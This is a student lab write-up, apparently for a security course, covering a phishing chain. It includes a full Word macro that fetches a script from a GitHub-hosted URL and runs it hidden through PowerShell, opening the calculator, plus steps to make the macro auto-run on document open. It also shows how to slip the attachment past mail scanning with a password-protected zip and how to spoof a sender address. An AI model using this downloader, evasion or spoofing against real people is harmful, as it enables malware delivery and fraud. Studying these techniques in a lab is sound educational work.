\section{Challenge 1}

\textit{\textbf{Task:} Try to create a free domain with no information about the registrant, if possible, create a webpage and upload a file that can be downloaded with an HTTP request.}

We chose to use Github Pages as it keeps most of the user information private, for example: email address, private repositories, security logs, private contributions, etc. The only information that is public is: username, profile picture, biography, and location (if provided), public repositories, followers/following and activity, which includes public contributions such as commits, pull requests, issues, and discussions. As can be seen, if any sensitive information is provided by the attacker in the optional fields, there is no way to know someone's identity using the information that github provides.

The repository can be found at: \href{https://github.com/Aleshhh/ucases-s4.github.io}{https://github.com/Aleshhh/ucases-s4.github.io}.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Challenge 2}
\label{sec:2}

\textit{\textbf{Task:} Write a VBScript that downloads a batch script from your domain and executes it. The content of the batch script has to execute the Windows Calculator.}

Our VBS code must download the bash file from the repository, which opens the calculator, and execute it. The implementation is as follows:

\begin{codesnippet}[H]
    \caption[VBS Code]{Downloading Code (VBS)}
    \begin{lstlisting}[frame=none]
    Private Sub Document_Open()
        ' VBScript to download a file from the internet

        Dim httpRequest, stream
        Set httpRequest = CreateObject("MSXML2.XMLHTTP")
        
        ' Specify the URL of the file to download
        Dim fileUrl
        fileUrl = "https://raw.githubusercontent.com/Aleshhh/ucases-s4.github.io/main/Not_A_Virus.sh"
        
        ' Specify the path where the file should be saved
        Dim filePath
        filePath = ".\Not_A_Virus.sh"
        
        ' Open the HTTP request
        httpRequest.Open "GET", fileUrl, False
        httpRequest.Send

        If httpRequest.Status = 200 Then
    \end{lstlisting}
\label{code:macro}
\end{codesnippet}

\begin{lstlisting}[firstnumber=20]
            ' Create the stream object to write the content to a file
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1 'Binary
            stream.Write httpRequest.ResponseBody
            stream.Position = 0
            
            ' Save the file
            stream.SaveToFile filePath, 2 '2 = overwrite if file already exists
            stream.Close
            Set stream = Nothing

        Else
            MsgBox "Failed to download the file. Status: " & httpRequest.Status
        End If

        Set httpRequest = Nothing



        Dim wsh As Object
        Set wsh = VBA.CreateObject("WScript.Shell")

        Dim shellInterpreter As String
        Dim scriptPath As String

        ' Construct the command to execute
        Dim command As String
        command = "powershell.exe -nologo -command .\Not_A_Virus.sh"

        ' Run the command
        wsh.Run command, 0, True  ' The window style 1 means the window is activated and displayed normally, True waits for the command to complete

        Set wsh = Nothing
    End Sub
\end{lstlisting}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Challenge 3}

\textit{\textbf{Task:} Create a Word document and add a VBS script as a Macro. Try to execute it in a Virtual Environment.}

Now, we have to make the Word document execute our macro whenever it is opened. We have to follow these steps:

\begin{enumerate}[label=\textbf{\arabic*}.]
    \item Create a Word document with some tentative content, like cute cats; what else? Then, save the file as \textit{Cutecats\textbf{.docm}}.
    
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.85\textwidth]{Images/Cutecats.png}
        \caption{Word document content (\textit{cutecats.docm}).}
        \label{fig:cutecats}
    \end{figure}
    \vspace{-0.5cm}

    \item Enable macros to autorun. To do so, we need to go to \textit{File} $\rightarrow$ \textit{Options} $\rightarrow$ \textit{Trust Center} $\rightarrow$ \textit{Trust Center Settings} $\rightarrow$ \textit{Macro Settings} and enable macros.
    
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.85\textwidth]{Images/Enable_Macros.png}
        \caption{Enabling macros in the word document.}
        \label{fig:enamble_macros}
    \end{figure}
    \vspace{-0.5cm}

    \item Now that macros have been enabled, we have to go to \textit{File} $\rightarrow$ \textit{Options} $\rightarrow$ \textit{Customize Ribbon} and enable the \textit{Developer Options} located in the \textit{Main Tabs} box in order to write the macro in the document. It should now appear a new tab in the main manu called \textit{Developer}. From there, we can open the \textit{Visual Basic}. Once there, we just have to paste the code we got in \textit{Section \ref{sec:2}}.
\end{enumerate}

At this point, just by opening the word document, it should automatically download the bash file from the repository and execute it in the background. This process will lead into opening the calculator every time the word is opened.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Challenge 4}

\textit{\textbf{Task:} Write an email attaching the Word document and send it to your email address impersonating a real domain. Use Emkai (\href{https://emkei.cz/}{https://emkei.cz/}) for the Spoofing attack.}

When we tried to send the file directly or just by normal compression, the email was not successfully sent or received because it was detected as a suspicious file. Nevertheless, we could avoid this protection by creating a zip file protected with a password and attaching the password to the body of the email. This way, the antivirus would not be able to analyze the files as they are encrypted. The counterpart is that Gmail tells us to be careful with the file as it could be harmful.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\textwidth]{Images/Email.png}
    \caption{Fake crafted email.}
    \label{fig:fake_email}
\end{figure}
\vspace{-0.5cm}

As we can see, the email appears to have been sent by our professor, Sebastian Kanj, who appears to like watching small cats just being cats. Obviously, our professor did not send this email. Using this method, the mail arrives at the main mailbox, not the spam folder. We could perform this impersonation because the UPC domain is not well configured, but if we try with another domain provider, like Google (gmail), it will not work.